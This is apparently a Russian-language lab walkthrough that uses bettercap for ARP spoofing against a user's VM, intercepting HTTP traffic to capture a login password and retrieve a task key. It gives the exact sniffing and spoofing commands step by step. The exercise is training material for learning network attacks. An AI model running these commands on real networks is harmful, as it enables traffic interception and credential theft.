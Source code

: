
## ARP спуфинг
1. На машине атакующего в терминале выполнить `sudo bettercap`
2. Включить наблюдение за сетевым трафиком: ввести `net.sniff on`
3. Просканировать сеть, найти IP и MAC адрес ВМ пользователя сети: `net.probe on`. Когда ВМ пользователя сети будет найдена, сканирование можно отключить: `net.probe off`.

## Задание 1 - получить http трафик

Включить ARP спуфинг

     set arp.spoof.targets ip, где ip - IP адрес ВМ пользователя
     set arp.spoof.fullduplex true
     set arp.spoof.internal true
     arp.spoof on

После небольшого ожидания мы увидим трафик клиента. На клиент машине один из сайтов открывается по http и с него мы уже можем получить данные. 
Мы можем увидеть, каким паролем для захода на сайт воспользовался клиент. Зайдем в браузер по адресу "part1.local" и получим ![первый ключ. (пример полученного ключа)](img/4/responce_1.png)

Теперь выключаем спуфинг: 
    
    arp.spoof off

:::tip Ура!
